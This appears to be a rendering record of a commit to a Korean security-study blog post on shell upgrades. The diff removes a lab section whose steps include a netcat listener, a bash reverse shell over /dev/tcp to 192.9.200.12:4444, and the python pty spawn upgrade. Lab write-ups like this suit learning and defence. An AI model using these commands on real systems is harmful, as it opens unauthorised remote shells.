

Before and after one commit to HamaP0/HamaP0.github.io, a Jekyll site: the page built from _posts/시스템 해킹/2025-09-05-Shell_study.md, in a window 1280 px wide and 1400 px high, scrolled down 3415 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; after the commit the page ends 3777 px from its top, so only the background shows below that.

Commit message:
Update 2025-09-05-Shell_study.md

````diff
--- a/_posts/시스템 해킹/2025-09-05-Shell_study.md
+++ b/_posts/시스템 해킹/2025-09-05-Shell_study.md
@@ -76,45 +76,3 @@
     터미널의 종류(`TERM`)와 크기(`stty rows/cols`)를 로컬 터미널과 동일하게 맞춰주어 `clear`나 텍스트 편집기 같은 전체 화면 애플리케이션이 정상적으로 동작하도록 설정한다.
 
 <hr class="short-rule">
-
-
-
-
-
-### 시각 자료(이미지) 제작을 위한 스크립트
-
-#### **쉘 업그레이드 전/후 비교 이미지 제작**
-
-이 이미지는 제한된 쉘과 완전한 TTY 쉘의 차이점을 명확하게 보여주는 핵심 자료입니다.
-
-**1. "Before" 이미지 (제한된 쉘)**
-
-1.  (준비) 두 개의 터미널 창을 엽니다. 하나는 **공격자 PC(Attacker)** 다른 하나는 **대상 서버(Target)** 역할입니다.
-2.  **공격자 PC** 터미널에서 리버스 쉘 리스너를 실행합니다.
-    ```bash
-    nc -lvnp 4444
-    ```
-3.  **대상 서버** 터미널에서 공격자 PC로 리버스 쉘을 연결하는 명령어를 실행합니다.
-    ```bash
-    bash -i >& /dev/tcp/192.9.200.12/4444 0>&1
-    ```
-4.  **공격자 PC** 터미널에 연결이 수립되고, `$` 와 같이 매우 단순한 프롬프트가 나타날 것입니다. 이 상태에서 `whoami` 같은 간단한 명령어를 한두 번 실행합니다.
-5.  이 단순한 프롬프트가 보이는 **공격자 PC** 터미널 화면을 스크린샷으로 찍어 **`쉘업그레이드_전.png`** 로 저장합니다.
-
-**2. "After" 이미지 (TTY 쉘)**
-
-1.  위 4번 상태의 **공격자 PC** 터미널(리버스 쉘이 연결된 상태)에서, 쉘 업그레이드 명령어를 입력합니다.
-    ```bash
-    python3 -c "import pty; pty.spawn('/bin/bash')"
-    ```
-2.  명령어 실행 직후 프롬프트가 `www-data@ubuntu:/var/www/html$` 와 같이 사용자명과 현재 경로가 포함된 완전한 형태로 변경될 것입니다.
-3.  변경된 프롬프트가 보이는 **공격자 PC** 터미널 화면을 스크린샷으로 찍어 **`쉘업그레이드_후.png`** 로 저장합니다.
-
-**3. 최종 이미지 편집**
-
-1.  이미지 편집 프로그램(포토샵, 그림판 등)에서 새 캔버스를 엽니다.
-2.  왼쪽에 `쉘업그레이드_전.png`를, 오른쪽에 `쉘업그레이드_후.png`를 나란히 배치합니다.
-3.  각 이미지 위에 "**Before (Dumb Shell)**"과 "**After (Interactive TTY Shell)**" 텍스트를 추가합니다.
-4.  **Before** 이미지에서는 단순한 `$` 프롬프트 부분에 하이라이트를 적용합니다.
-5.  **After** 이미지에서는 `python3 -c "..."` 명령어 전체와, 그 결과로 나타난 `www-data@ubuntu:...$` 프롬프트 부분에 하이라이트를 적용하여 원인과 결과를 명확히 보여줍니다.
-6.  수정된 이미지를 저장하여 게시글에 삽입합니다.
````
